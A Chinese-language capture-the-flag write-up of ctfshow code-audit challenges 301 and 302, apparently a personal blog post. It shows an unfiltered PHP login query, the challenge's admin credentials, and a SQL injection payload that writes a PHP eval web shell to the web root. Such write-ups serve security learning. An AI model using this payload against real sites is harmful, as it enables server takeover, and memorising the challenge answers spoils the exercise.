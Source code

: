 ```yaml
---
title: ctfshow-代码审计
id: ctfshow-代码审计
date: 2021-10-06 20:40:30
sidebar_position: 6
---
```




整个国庆都在刷终极考核，第一台机子拿了shell但是没能提权，看了4天linux提权
和群主交流的时候他说挺简单，应该是我信息收集没到位；

虽然前面的提权都没成，但也学到很多东西

明天晚上就回学校了，今天就抽点时间做一下代码审计这一块放松放松~


## 301 sql注入

本来打算用seay审一下，但是啥也没有，大概是没有危险函数？
手动审一下

checklogin.php，sql语句没有过滤

```php
$sql="select sds_password from sds_user where sds_username='".$username."' order by id limit 1;";
```

没回显就不注了，可以sqlmap一把梭，账户密码：`admin/ctfshowwwww`

![](https://i.loli.net/2021/10/06/9SvGmP1j4J7s8CB.png)

或者尝试写马

```sql
userid=' union select "<?php eval($_GET[1]);" into outfile "/var/www/html/a.php" --+
```

## 302 sql注入

> hint:
>
> 修改的地方：
>
> ```php
> if(!strcasecmp(sds_decode($userpwd),$row['sds_password'])){
> ```

也就是比原本加了个sds_decode()，找到fun.php里

```php
function sds_decode($str){
	return md5(md5($str.md5(base64_encode("sds")))."sds");
}
```

